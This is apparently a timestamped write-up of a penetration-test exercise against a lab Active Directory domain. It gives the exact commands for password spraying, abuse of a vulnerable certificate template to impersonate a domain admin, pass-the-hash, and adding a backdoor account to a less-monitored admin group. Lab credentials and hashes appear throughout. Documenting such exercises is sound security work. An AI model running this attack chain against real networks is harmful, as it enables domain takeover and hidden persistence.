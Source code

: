 Our latest writeup for this run:

15:21
Potential usernames (4) discovered on the webserver (10.0.9.12)
    visit web server with curl

15:26 & 15:27 Started Port Scan with Nmap, only scanning common ports  we expect for management use or common services, also running a bit slower
    nmap -sT -T 3 -p 389,445,3389,22,80 10.0.9.0/24 -oA network_scan

15:30
Password bruteforce leads to password for the user damon; Tools: nxc/netexec, only most used password to not issue too many requests
    nxc smb 10.0.9.11 -u ./users -p 2023-200_most_used_passwords.txt

15:31
Look for valuable/interesting users (e.g. domain admins), no expected stealthiness intended here
    nxc ldap 10.0.9.11 -u damon -p 'Cindylee1' -M group-mem -o GROUP="Domain Admins"

    15:33
Enumerated certificate templates and found "Smartcard" to be vulnerable; no expected stealthiness intended here; Tools: certipy
    certipy-ad find -enabled -u damon@PLUMETECH -p 'Cindylee1' -dc-ip 10.0.9.11

15:34
Getting SID of manuel who is domain admin (needed for requesting in certipy), no expected stealthiness intended here
    nxc ldap 10.0.9.11 -u damon -p 'Cindylee1' --query "(sAMAccountName=manuel)" "" 

15:35
Converting the objectSID to SID with script: https://stackoverflow.com/questions/33188413/python-code-to-convert-from-objectsid-to-sid-representation


We requested a certificate with the upn manuel (who is domain admin), afterwards we used the certificate to authenticate against the DC and get the nthash of manuel; Tools: certipy
    15:37
    certipy-ad req -username damon@plumetech.local -p 'Cindylee1' -ca PLUMETECH-DC1-CA -template 'Smartcard' -upn manuel@plumetech.local -target 10.0.9.11 -sid S-1-5-21-742041295-2727698780-1124300366-1113
    15:38
    certipy-ad auth -pfx manuel.pfx -dc-ip 10.0.9.11

15:39
Added the user plumber as requested and put it into the server admins group (we expect it has less chance to be monitored than the domain admins group); nxc/netexec 
    nxc smb 10.0.9.11 -u manuel -H 'aad3b435b51404eeaad3b435b51404ee:c7c1e58f57e5c784b78ab63a3546aaed' -x 'net user plumber Pentest123 /domain /add'

15:40
    nxc smb 10.0.9.11 -u manuel -H 'aad3b435b51404eeaad3b435b51404ee:c7c1e58f57e5c784b78ab63a3546aaed' -x 'net group "Server Admins" plumber /domain /add'